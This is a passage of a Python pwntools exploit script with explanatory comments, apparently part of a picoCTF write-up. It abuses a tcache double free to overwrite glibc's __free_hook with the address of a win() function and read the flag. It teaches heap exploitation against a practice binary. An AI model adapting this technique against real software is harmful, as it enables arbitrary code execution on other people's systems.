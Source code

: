 ```python
log.info("`malloc` (for the second time) chunk A, size 0x30; overwrite size of chunk B with null byte")
create("a"*40, 40)

log.info("`free` chunk B again (double `free` conditions met)")
remove(1)

io.recv(4096)

# Overwrite the forward address of chunk B with the address of `FREE_HOOK`
# by allocating and removing it from the 0x100 tcache list
log.info("`malloc` chunk of size 0x100 and overwrite the forward address to `__free_hook`")
create(p64(FREE_HOOK), 248)

# The above step removed chunk B from the 0x100 list, so we cannot free it
# again from that list to access our overwritten forward pointer. However, since we
# double-freed block B, it still exists in the 0x110 list. We create a chunk of the
# same size as chunk B, thus returning to us chunk B from tcache. Now the head pointer
# (which always points to the first block) of the 0x110 list points to the forward 
# address of block B, which we overwrote to `__free_hook`. The block in the 0x100 list
# refers to the same memory location as the block in the 0x110 list.
log.info("`malloc` the same (as above) chunk but from the list for size 0x110, thus removing it from the list and leaving the next chunk pointer pointing at `__free_hook`")
create("0", 264)

# Now that the next block points to our overwritten memory location, we `malloc` it.
# `malloc` sees our request for a block of memory with size 0x110 and returns the pointer
# to the next block, which we overwrote to `FREE_HOOK`. `malloc` then asks what value we
# want to store in this "block of memory" (which is actually `FREE_HOOK`). We tell is to
# store the address of `win()`. We have successfully written over an address of our choosing
# with an arbitrary address. `malloc` believes we simply asked for a block of memory, it gave
# us one, and then we stored our data in it. You can think of this as `malloc` being oblivious
# to our attack.
log.info("Use `malloc` to write the address of `win()` to `__free_hook`")
# 0x400a02 is the location of win()
create(p64(0x400a02), 264)

# We overwrote the `__free_hook` pointer to the `win()` function. So, now we actually have to
# use our overwritten memory by calling `free()`, which redirects its actions to whatever
# function `__free_hook` happens to point to.
log.info("Execute the `win()` function at 0x400a02")
remove(0)

# io.recvuntil("\n") # remove the newline from the flag
output = io.recvuntil("}")
flag = re.search("picoCTF{.*?}", output.decode("ascii")).group()
log.success(flag)

# io.interactive()
```
